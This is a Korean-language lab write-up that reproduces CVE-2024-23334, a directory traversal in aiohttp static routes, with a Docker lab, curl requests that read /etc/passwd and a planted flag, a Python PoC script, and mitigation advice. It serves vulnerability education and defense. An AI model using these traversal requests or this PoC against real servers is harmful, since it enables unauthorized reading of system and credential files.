



# aiohttp 정적 라우트 디렉터리 트래버설 (CVE-2024-23334)

> 화이트햇 스쿨 - [@dndlftls](https://github.com/dndlftls)

[영어 버전(English version)](https://github.com/vulhub/vulhub/tree/master/aiohttp/CVE-2024-23334/README.md)
[GitHub Security Advisory](https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f)

<br/>

## 1. 취약점 요약 (Summary)

**aiohttp** 는 Python `asyncio` 기반의 비동기 HTTP 클라이언트/서버 프레임워크입니다. 웹 서버로 사용할 때 `web.static()` 으로 정적 파일 라우트를 등록할 수 있으며, 이때 `follow_symlinks` 옵션으로 정적 루트(static root) 밖의 심볼릭 링크를 따라갈지 여부를 지정합니다.

**CVE-2024-23334** 는 이 정적 라우트가 **`follow_symlinks=True`** 로 구성된 경우, aiohttp가 요청 경로를 정적 루트 내부로 제한하는 검증을 수행하지 않아 발생하는 **디렉터리 트래버설(Directory Traversal)** 취약점입니다. 공격자는 인증 없이 `GET /static/../../../../etc/passwd` 와 같은 요청으로 **서버 파일 시스템의 임의 파일을 원격에서 읽을 수 있습니다.** 심볼릭 링크가 실제로 존재하지 않아도 악용됩니다.

| 항목 | 내용 |
| --- | --- |
| CVE ID | CVE-2024-23334 |
| 취약점 유형 | Directory Traversal / Arbitrary File Read (CWE-22) |
| 영향 받는 버전 | aiohttp >= 1.0.5, **< 3.9.2** |
| 패치 버전 | **3.9.2** |
| CVSS 3.1 | **7.5 (High)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| 인증 필요 | 불필요 (Unauthenticated) |
| 악용 경로 | 원격 (Remote / Network) |

<br/>

## 2. 환경 구성 (Environment Setup)

외부에서 미리 빌드된 이미지에 의존하지 않고, **공식 `python:3.11-slim` 이미지 위에서 취약 버전 `aiohttp==3.9.1` 을 직접 설치**하여 환경을 완전히 자체 구성합니다. `docker compose` 명령 하나로 빌드와 실행이 모두 완료됩니다.

**디렉터리 구조**

```
Aiohttp/CVE-2024-23334/
├── Dockerfile          # python:3.11-slim + aiohttp==3.9.1
├── docker-compose.yml  # 단일 서비스 빌드/구동
├── app.py              # 취약하게 구성된 aiohttp 정적 서버
└── static/
    └── index.html      # 정적 루트 안의 정상 공개 파일
```

**`Dockerfile`**

```dockerfile
FROM python:3.11-slim

WORKDIR /app

# 취약 버전(aiohttp < 3.9.2). CVE-2024-23334 은 3.9.2 에서 수정됨.
RUN pip install --no-cache-dir aiohttp==3.9.1

COPY app.py .
COPY static/ ./static/

# 임의 파일 읽기 증명을 위해 정적 루트 밖에 비밀 파일을 배치
RUN echo 'FLAG{aiohttp_CVE_2024_23334_directory_traversal}' > /flag.txt

EXPOSE 8080

CMD ["python", "app.py"]
```

**`docker-compose.yml`**

```yaml
services:
  web:
    build: .
    ports:
      - "8080:8080"
```

**실행 (복사해서 바로 실행 가능)**

```bash
cd Aiohttp/CVE-2024-23334
docker compose up -d --build
```

컨테이너가 기동되면 `http://<your-ip>:8080/` 에서 데모 페이지를, `http://<your-ip>:8080/static/index.html` 에서 정상 정적 파일을 확인할 수 있습니다.



<br/>

## 3. 취약 조건 (Vulnerable Conditions)

아래 **두 조건이 모두** 충족될 때 취약합니다.

1. **취약 버전 사용** — aiohttp `< 3.9.2` 를 웹 서버로 사용.
2. **`follow_symlinks=True` 로 정적 라우트 등록** — `web.static(prefix, path, follow_symlinks=True)` 형태로 정적 파일 서비스를 구성.

`app.py` 의 취약 지점은 다음과 같습니다.

```python
from aiohttp import web

app = web.Application()
app.add_routes([
    # follow_symlinks=True 가 정적 루트 밖 경로 검증을 비활성화한다.
    web.static('/static', './static', follow_symlinks=True),
])
```

`follow_symlinks=True` 가 지정되면 aiohttp 3.9.2 미만은 요청된 파일이 정적 루트 내부에 있는지 확인하는 검사를 건너뛰고 그대로 파일을 반환합니다. 그 결과 `../` 시퀀스를 이용한 상위 디렉터리 탈출이 가능해집니다.

<br/>

## 4. 재현 절차 (Reproduction Steps)

> **주의:** 브라우저나 일반 `curl` 은 URL의 `../` 를 클라이언트 측에서 정규화(normalize)하여 서버로 보내기 전에 제거합니다. 서버까지 `../` 를 그대로 전달하려면 `curl --path-as-is` 옵션을 사용해야 합니다.

**① 정상 접근 (baseline)**

```bash
curl -s http://127.0.0.1:8080/
curl -s http://127.0.0.1:8080/static/index.html
```



**② 디렉터리 트래버설 공격 — 임의 파일 읽기**

```bash
# 시스템 계정 파일 읽기
curl -s --path-as-is "http://127.0.0.1:8080/static/../../../../etc/passwd"

# 정적 루트 밖에 배치된 비밀 파일 읽기
curl -s --path-as-is "http://127.0.0.1:8080/static/../../flag.txt"

# 응답 코드 확인 (200 OK)
curl -s -o /dev/null -w "HTTP %{http_code}\n" --path-as-is \
    "http://127.0.0.1:8080/static/../../../../etc/passwd"
```



<br/>

## 5. PoC 코드 (PoC Script)

위의 개별 `curl` 대신 아래 파이썬 스크립트로 한 번에 재현할 수 있습니다. `poc.py` 로 저장 후 `python3 poc.py` 로 실행합니다. (표준 라이브러리만 사용 — 추가 설치 불필요)

```python
#!/usr/bin/env python3
# CVE-2024-23334 aiohttp directory traversal PoC
import sys
import urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://127.0.0.1:8080"
# 정적 루트(/static)에서 상위로 탈출하여 임의 파일을 읽는다.
targets = [
    "/static/../../../../etc/passwd",
    "/static/../../flag.txt",
]

for path in targets:
    # --path-as-is 와 동일하게, ../ 를 정규화하지 않고 그대로 전송한다.
    url = TARGET + path
    req = urllib.request.Request(url)
    try:
        with urllib.request.urlopen(req, timeout=5) as r:
            body = r.read().decode("utf-8", "replace")
            print(f"[+] {path}  -> HTTP {r.status}")
            print("    " + body.strip().replace("\n", "\n    "))
    except Exception as e:
        print(f"[-] {path}  -> {e}")
```

> 참고: `urllib` 는 기본적으로 `../` 를 정규화하지 않고 전송하므로 `--path-as-is` 없이도 서버까지 페이로드가 전달됩니다.

<br/>

## 6. 실행 결과 (Result)

- `GET /static/../../../../etc/passwd` → `HTTP 200` 과 함께 컨테이너의 `/etc/passwd` 전체 내용이 반환됨.
- `GET /static/../../flag.txt` → 정적 루트 밖 `/flag.txt` 의 내용 `FLAG{aiohttp_CVE_2024_23334_directory_traversal}` 이 반환됨.
- 컨테이너 내 aiohttp 버전: `3.9.1` (취약 버전) 확인.

즉, **인증 없이 원격에서 서버 파일 시스템의 임의 파일을 읽을 수 있음**이 실증되었습니다. `/etc/passwd`, 애플리케이션 소스 코드, 설정 파일, 자격 증명이 담긴 `.env` 등 프로세스 권한으로 접근 가능한 모든 파일이 노출 대상입니다.

<br/>

## 7. 대응 방안 (Mitigation)

1. **aiohttp 업그레이드 (근본 대책)** — `3.9.2` 이상으로 업그레이드합니다. 3.9.2 는 `follow_symlinks=True` 인 경우에도 최종 해석 경로가 정적 루트 내부에 있는지 검증하도록 수정되었습니다.

   ```bash
   pip install "aiohttp>=3.9.2"
   ```

2. **`follow_symlinks=True` 제거** — 심볼릭 링크 추적이 반드시 필요한 것이 아니라면 옵션을 사용하지 않습니다. 기본값(`False`)이 안전합니다.

   ```python
   web.static('/static', './static')  # follow_symlinks 미지정 = 안전
   ```

3. **정적 파일 서빙 분리** — 애플리케이션이 직접 정적 파일을 서비스하지 말고, Nginx 등 리버스 프록시가 정적 파일을 처리하도록 구성하여 경로 정규화를 프록시 단에서 보장합니다.

4. **최소 권한 원칙** — 컨테이너/프로세스를 비루트 사용자로 실행하고, 애플리케이션 디렉터리 외 민감 파일에 대한 접근 권한을 제거하여 파일 읽기 취약점의 영향 범위를 최소화합니다.

<br/>

## 참고 자료 (References)

- <https://nvd.nist.gov/vuln/detail/CVE-2024-23334>
- <https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f>
- <https://github.com/aio-libs/aiohttp/pull/8079> (패치 PR)
- <https://github.com/vulhub/vulhub/tree/master/aiohttp/CVE-2024-23334>
